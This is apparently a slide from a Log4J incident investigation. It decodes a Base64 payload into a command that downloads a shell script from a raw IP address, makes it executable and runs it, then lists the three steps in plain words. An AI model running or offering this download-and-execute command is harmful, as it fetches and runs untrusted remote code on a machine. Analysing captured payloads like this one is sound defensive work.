

# Log4J Investigation
d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==

Decodes to (Base64)

wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh

Get lh.sh
Make it executable
Execute it